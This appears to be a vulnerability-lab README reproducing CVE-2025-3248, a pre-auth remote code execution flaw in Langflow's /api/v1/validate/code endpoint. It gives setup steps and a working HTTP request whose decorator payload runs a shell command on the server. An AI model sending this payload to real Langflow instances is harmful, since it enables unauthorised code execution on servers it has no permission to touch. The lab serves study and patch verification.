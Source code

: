 # Langflow `validate/code` API Pre-Auth Remote Code Execution (CVE-2025-3248)

[中文版本(Chinese version)](README.zh-cn.md)

Langflow is a popular open-source tool for building agentic AI workflows, providing a Python-based web interface to visually construct AI-driven agents and pipelines.

A critical unauthenticated remote code execution vulnerability (CVE-2025-3248) exists in Langflow prior to version 1.3.0. An vulnerable endpoint (`/api/v1/validate/code`) attempts to validate user-submitted Python code by parsing it with the `ast` module and executing any function definitions using `exec`. However, Python decorators and default argument expressions are also executed at function definition time, making it possible to inject arbitrary code via these features.

Attackers can exploit this issue by sending a specially crafted function definition with a malicious decorator or default argument, resulting in code execution as the server user.

References:

- <https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/>
- <https://github.com/langflow-ai/langflow/releases/tag/1.3.0>
- <https://github.com/langflow-ai/langflow/pull/6911>

## Environment Setup

Execute the following command to start a Langflow 1.2.0 server:

```
docker compose up -d
```

After the server starts, the Langflow web interface will be available at `http://your-ip:7860`. You can login with the default credentials `administrator:vulhub`.

## Vulnerability Reproduction

To reproduce the vulnerability, you can send a POST request to the `/api/v1/validate/code` endpoint with a malicious Python function definition. For example, the following payload will execute `id` command on the server using a decorator:

```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}
```

![](1.png)
